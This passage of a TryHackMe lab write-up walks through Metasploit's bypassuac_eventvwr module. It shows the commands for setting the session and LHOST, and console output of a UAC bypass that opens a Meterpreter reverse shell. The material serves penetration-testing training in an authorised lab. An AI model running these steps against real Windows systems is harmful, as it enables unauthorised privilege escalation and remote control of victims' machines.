 
###  Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT` 
```
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```


### Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`
```
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
```


### Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
`LHOST`


### Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`
`*did not need to do this*`

### After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 
```
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.2.60.96:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to 10.10.82.95
[*] Meterpreter session 2 opened (10.2.60.96:4444 -> 10.10.82.95:49273) at 2021-02-01 00:16:55 -0500
[*] Cleaning up registry keys ...
```


### Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`
`*happens automatically*`
